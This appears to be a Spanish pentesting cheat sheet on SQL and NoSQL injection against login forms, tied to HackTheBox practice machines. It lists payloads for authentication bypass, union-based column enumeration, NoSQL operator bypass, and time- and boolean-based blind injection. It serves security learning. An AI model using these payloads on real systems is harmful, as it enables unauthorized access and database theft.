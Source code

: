 **Out-of-band**: No tendremos acceso directo a la salida de la consulta, ni a ciegas. Tendremos entonces que redirigir la salida hacia otro lugar.

### **Método** 
Recomendaría por comodidad realizar las inyecciones mediante Burpsuite desde el repeater.  
Primero probar credenciales típicas o por defecto del sitio en cuestión.   Algunas típicas son admin:admin, gest:guest, admin:1234, etc.

`admin’` Intentando provocar un error.  
`admin’ or 1=1-- -` Para entrar sin credenciales.   
`admin’ and 1=1-- -`  
`admin’) or 1=1-- -`

`admin’ order by <nº>-- -`  
Suelo empezar por 100 para ver el resultado cuando no es, y luego ya probar bien del 1 hasta el 8. Primero el 1; Si sale lo mismo para el 1 que para el 100 no creo que funcione. Si no sale lo de Unknow column o algun resultado distinto puedes probar directamente con el union.  
`admin’ order by 1,2,3,4,5,6,7,8,9,10,11,12-- -`  
Puede que salga unknown column <nº>, el anterior a ese es el número correcto de columnas.  
`admin’ group by <nº>-- -` Lo mismo que order by.


`admin’ union select 1-- -`  
Si lo muestra o da error será vulnerable. Si da error habrá que intentar con mas columnas poco a poco:  
`admin’ union select 1,2-- -` Ir subiendo hasta que se muestre en pantalla.    
`admin’ limit 1,1 into 1-- -` Lo mismo que union select, luego ir subiendo con into 1,2 y asi..

**Ataque Nosqli**:  
`<username>[$ne]=<kulo>&<password>[$ne]=<kulo>` Desde el burpsuite mejor.  
Si resulta ser vulnerable hay un modo de sacar usuarios y contraseñas brute forceando, visto máquina **Mango**.
Si no resulta ser vulnerable podrías probar a ponerlo en formato json, visto máquina **NodeBlog**.  
Para mas info sobre el Nosqli mira [payloadsAllTheThings][patt].

**Sigamos con el SQLi**:

Si no ha habido suerte con todo lo anterior empiezo con las inyecciones a ciegas.

**Inyecciones a ciegas**:

`admin’ or sleep(5)-- -`  
`admin’ and sleep(5)-- -`  Suele ir mejor con el and pero la primera consulta  debería ser válida para que funcione.  
`admin and sleep(5)-- -`

Si funciona pasaré a usar condicionales(if) junto a la función **substring()**, para jugar con ello podría crearme un script o modificar alguno que tenga ya, ó tirar de SQLMap. Ejemplo de uso de SQLMap visto en máquina **Enterprise**. Ejemplos del script en python en máquinas **Cronos** y **Europa**. Recuerdo que todas máquinas nombradas son de la plataforma HackTheBox y podéis verlas en el canal de s4vionlive(youtube).

`admin’ or ‘1’=’1`  Sin comentarios al final. Esta sería una boolean based, que sigue siendo del tipo a ciegas.  
`admin’ and ‘1’=1`   
Prueba con ‘2’=’1 para comprobar que la respuesta cambia entre verdadero y falso.


[hacktricks]: https://book.hacktricks.xyz/welcome/readme
[patt]: https://github.com/swisskyrepo/PayloadsAllTheThings 